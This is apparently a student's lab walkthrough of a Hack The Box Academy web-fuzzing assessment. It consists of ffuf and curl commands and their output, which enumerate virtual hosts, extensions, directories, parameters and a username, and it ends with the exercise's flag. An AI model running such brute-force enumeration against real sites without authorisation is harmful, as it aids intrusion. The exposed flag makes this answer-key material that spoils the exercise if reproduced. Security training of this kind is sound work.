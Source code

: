 # Skills Assessment - Web Fuzzing

## Sub-domain / Vhost

sudo sh -c 'echo "83.136.253.251  academy.htb" >> /etc/hosts'

:50388

ffuf -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://FUZZ.academy.htb:50388/ > fuzz-subdomain.txt

--> Failed

ffuf -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://FUZZ.academy.htb/ > fuzz-subdomain.txt

--> Failed

ffuf -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://academy.htb:50388/ -H 'Host: FUZZ.academy.htb' > ffuf-vhost2.txt

ffuf -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://academy.htb:50388/ -H 'Host: FUZZ.academy.htb' -fs 985 > ffuf-vhost3.txt

test                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
archive                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
faculty                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 0ms]

## Extension

sudo sh -c 'echo "83.136.253.251  test.academy.htb" >> /etc/hosts'
sudo sh -c 'echo "83.136.253.251  archive.academy.htb" >> /etc/hosts'
sudo sh -c 'echo "83.136.253.251  faculty.academy.htb" >> /etc/hosts'


ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://test.academy.htb:50388/indexFUZZ
.php                    [Status: 200, Size: 985, Words: 423, Lines: 55, Duration: 0ms]
.phps                   [Status: 403, Size: 282, Words: 20, Lines: 10, Duration: 0ms]

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://archive.academy.htb:50388/indexFUZZ
.php                    [Status: 200, Size: 985, Words: 423, Lines: 55, Duration: 0ms]
.phps                   [Status: 403, Size: 282, Words: 20, Lines: 10, Duration: 0ms]

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://faculty.academy.htb:50388/indexFUZZ
.php                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
.php7                   [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
.phps                   [Status: 403, Size: 287, Words: 20, Lines: 10, Duration: 2375ms]



ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://83.136.253.251:50388/indexFUZZ
.php                    [Status: 200, Size: 985, Words: 423, Lines: 55, Duration: 0ms]
.phps                   [Status: 403, Size: 282, Words: 20, Lines: 10, Duration: 0ms]


83.136.253.251

## Pages

vi subdomains.txt
test
archive
faculty

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ  -w subdomains.txt:SUB -u http://SUB.academy.htb:50388/FUZZ -recursion -recursion-depth 1 -e .php -v > fuzz.txt

http://faculty.academy.htb:50388/courses/

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://faculty.academy.htb:50388/courses/FUZZ.php7 > courses.txt

linux-security          [Status: 200, Size: 774, Words: 223, Lines: 53, Duration: 0ms]

curl http://faculty.academy.htb:50388/courses/linux-security.php7 -X POST -d 'id=key' -H 'Content-Type: application/x-www-form-urlencoded'

## Parameters

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:50388/courses/linux-security.php7?FUZZ=key

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:50388/courses/linux-security.php7?FUZZ=key -fs 774

user                    [Status: 200, Size: 780, Words: 223, Lines: 53, Duration: 0ms]


ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:50388/courses/linux-security.php7 -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded'

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:50388/courses/linux-security.php7 -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs 774

user                    [Status: 200, Size: 780, Words: 223, Lines: 53, Duration: 0ms]
username                [Status: 200, Size: 781, Words: 223, Lines: 53, Duration: 0ms]

ffuf -w /opt/useful/SecLists/Usernames/top-usernames-shortlist.txt:FUZZ -u http://faculty.academy.htb:50388/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' > fuzz-parameter-post.txt

--> Failed list too short

ffuf -w /opt/useful/SecLists/Usernames/Names/names.txt:FUZZ -u http://faculty.academy.htb:50388/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' > fuzz-parameter-post.txt

ffuf -w /opt/useful/SecLists/Usernames/Names/names.txt:FUZZ -u http://faculty.academy.htb:50388/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' > fuzz-parameter-post.txt -fs 781

harry                   [Status: 200, Size: 773, Words: 218, Lines: 53, Duration: 57ms]

curl http://faculty.academy.htb:50388/courses/linux-security.php7 -X POST -d 'username=harry' -H 'Content-Type: application/x-www-form-urlencoded'

<div class='center'><p>HTB{w3b_fuzz1n6_m4573r}</p></div>
